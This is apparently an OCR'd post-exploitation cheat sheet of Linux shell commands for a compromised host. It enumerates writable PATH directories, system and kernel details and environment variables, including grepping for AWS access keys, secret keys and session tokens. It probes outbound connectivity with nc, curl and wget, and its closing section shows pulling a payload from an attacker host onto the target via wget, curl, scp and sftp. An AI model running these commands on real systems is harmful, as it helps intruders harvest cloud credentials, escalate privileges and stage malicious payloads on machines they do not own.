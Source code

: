 ### PATH writable (same loop as os_info)
- OLDIFS=$IFS; IFS=":"; for p in $PATH; do [ -d "$p" ] && [ -w "$p" ] && printf 'writable: %s\n' "$p"; done; IFS=$OLDIFS

### Environment checks (selected vars)
- env | grep -m1 "^HOME="
- env | grep -m1 "^SHELL="
- env | grep -m1 "^PATH="
- env | grep -m1 "^USER="
- env | grep -m1 "^LOGNAME="
- env | grep -m1 "^TERM="
- env | grep -m1 "^LANG="
- env | grep -m1 "^EDITOR="
- env | grep -m1 "^PAGER="
- env | grep -m1 "^AWS_ACCESS_KEY_ID="
- env | grep -m1 "^AWS_SECRET_ACCESS_KEY="
- env | grep -m1 "^AWS_SESSION_TOKEN="

### Sudo presence & brief
- sudo -V 2>&1 | sed -n '1,20p'

### dmesg
- dmesg | tail -n 80

### OS / kernel / CPU basics
- uname -a
- head -n 3 /proc/version
- lscpu | sed -n '1,30p'
- grep -m1 'model name' /proc/cpuinfo

### Transfer probing — TCP + HTTP patterns
- nc -z -w 3 host port
- nc -w 3 host port
- curl -s --connect-timeout 3 -I "http://host:port/" 
- wget -q --timeout=3 --spider "http://host:port/"

### SSH publickey test (BatchMode, no password prompt)
- ssh -o BatchMode=yes -o ConnectTimeout=3 -p <port> user@host true

### Copy/paste transfer methods (examples)
- HTTP pull (serve on attacker):
  - On attacker: `python3 -m http.server 8000`
  - On target: `wget http://ATTACKER:8000/payload -O /tmp/payload || curl -fsSL http://ATTACKER:8000/payload -o /tmp/payload`

- SCP pull:
  - `scp -P 22 attacker@ATTACKER:/path/to/payload /tmp/payload`

- SFTP interactive:
  - `sftp -oPort=22 attacker@ATTACKER` then `get /path/to/payload /tmp/payload`
